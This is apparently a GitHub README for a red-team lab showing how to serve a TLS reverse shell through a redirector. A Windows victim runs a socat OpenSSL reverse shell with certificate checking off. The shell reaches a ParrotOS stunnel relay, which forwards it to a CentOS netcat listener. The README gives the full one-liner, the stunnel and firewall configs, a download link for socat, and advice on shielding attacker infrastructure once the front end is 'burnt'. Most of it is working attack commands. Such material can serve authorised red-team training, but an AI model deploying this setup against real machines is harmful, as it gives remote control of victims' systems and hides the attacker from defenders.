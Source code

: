 # TLS_redirect
## Simple resilient TLS reverse shell architecture

Here I will illustrate how to implement a simple but effective architecture to serve a reverse shell. Following the diagram:
<br>![Screenshot](RedTLS.png)<br>
I set up my ParrotOS VM to perform a TLS redirect to a CentOS server that acts as attacker. Since in a real engagment it is probable that the front end will be <i>burnt</i>, using this simple approach can save the attacker business logic and protect our <i>weapons</i>, making the things a bit harder. <br> In this scenario we can expose only the server that acts as redirector with a public IP, of course once the front end is burnt probably even the public IP will suffer the same fate. Some useful resources to check IP reputation:
- https://ipremoval.sms.symantec.com
- https://www.ip-finder.me/ip-full-list
<br>
Eventually we can concetrate our effort in hardening the CentOS server (attacker), in this example I have only put in place a firewall. So recalling the roles of the play we have:
1. Win10Pro machine with AV and firewall in place. The payload will be a simple socat openssl reverse shell
1. Parrot OS machine with Stunnel service that will redirect the incoming TLS connection to...
1. Attacker machine, a CentOS 8 server that will get the reverse shell not encrypted

### LAB configuration

#### Victim machine. 
- IP 192.168.1.6

Download the compiled socat for windows from here: https://github.com/zinzloun/TLS_redirect/raw/main/socat-1.7.3.2-1-x86_64.zip. Unzip the file and move the unzipped folder where you prefer, of course the folder is the position from where we will execute our payload. For convenience I put the folder into the enviroment PATH variable

#### TLS redirector
- Dual homed
  - IP 192.168.1.7 that acts as public interface
  - IP 10.0.2.5 that acts as internal interface

Install Stunell and configure to forward the traffic to the attacker machine using netcat. I will skip the part about how to create a self signed certificate, just browse the web. The configuration is self explanatory:
  ```
  sudo apt install stunnel4
  cat /etc/stunnel/stunnel.conf 
  [nc]
  client = no
  accept = 443
  connect = 10.0.2.10:6666
  cert = /etc/stunnel/stunnel.pem
  ```
  Now lunch the service and check it out:
```
  service stunnel4 start 
  netstat -tulpn | grep 443
  tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      4687/stunnel4       
```
#### The attacker machine
- IP 10.0.2.10

Here I had to install netcat:
```
sudo yum install nc
```
Then I configured the firewall to allow incoming connection from the redirector as follows:
```
sudo firewall-cmd --new-zone=redPar --permanent
sudo firewall-cmd --reload
sudo firewall-cmd --zone=redPar --add-source=10.0.2.5/32 --permanent
sudo firewall-cmd --zone=redPar --add-port=6666/tcp --permanent
sudo firewall-cmd --reload
```
Verify the configuration:
```
 sudo firewall-cmd --zone=redPar --list-all
  redPar (active)
    target: default
    icmp-block-inversion: no
    interfaces:
    sources: 10.0.2.5/32
    services:
    ports: 6666/tcp
    protocols:
    masquerade: no
    forward-ports:
    source-ports:
    icmp-blocks:
    rich rules:
```
Eventually to delete the zone issue:
```
sudo firewall-cmd --permanent --delete-zone=redPar
sudo firewall-cmd --reload
```
Finally lunch the listener:
```
sudo nc -lvp 6666
```

## Test
On the Win victim machine lunch the socat TLS reverse shell as follows:
```
socat OPENSSL:192.168.1.7:443,verify=0 EXEC:'cmd.exe',pipes
```
The flow is the follows where (1) is the victim, (2) is the redirector and (3) is the attacker:
<br>![Screenshot](run.png)<br>

We can inspect the traffic usign Wireshark*:
<br>![Screenshot](ssl_hand.png)<br>

## Conclusion

This is a simple architecture that would require a little built effort, a trusted public IP and eventually a valid TLS certificate are necessarty to work better, even if the last one is not a strict requirement as long as we are able to bypass the certificate validation on the victim, like in this scenario. Of course if the redirector is compromised it can reveal the private IP address of the attacker but since this is not public one it can be easely reconfigured. In a real engagment of course we will have a firewall\router in front of the redirector with a NAT\PAT implemented to the port 443, leaving only this service opened. The managment of the redirector will be performend through the private interface.

---
**NOTE**
###### *If your Lab (as mine) is created using a virtualizer (e.g. Virtualbox) remember that you can not itercept any traffics with a bridged mode network configuration on the host machine, since it bypass the host OS network stack entirely. Here I'm running Wireshark on the guest Parrot OS redirector*
---
